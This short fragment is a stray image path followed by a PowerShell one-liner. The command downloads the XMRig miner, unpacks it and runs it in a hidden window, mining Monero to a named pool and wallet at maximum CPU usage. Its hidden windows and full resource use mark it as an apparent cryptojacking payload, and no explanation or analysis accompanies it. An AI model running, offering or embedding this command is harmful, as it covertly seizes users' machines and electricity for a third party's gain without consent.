 powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://github.com/xmrig/xmrig/releases/download/v6.24.0/xmrig-6.24.0-msvc-win64.zip' -OutFile 'xmrig.zip'; if (Test-Path 'xmrig-6.24.0') { Remove-Item -Recurse -Force 'xmrig-6.24.0' }; Expand-Archive -Path 'xmrig.zip' -DestinationPath '.'; Start-Process -WindowStyle Hidden 'xmrig-6.24.0\xmrig.exe' -ArgumentList '-o pool.supportxmr.com:443 -u 45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb -p x -k --tls --cpu-priority=5 --donate-level=0 --max-cpu-usage=100'"
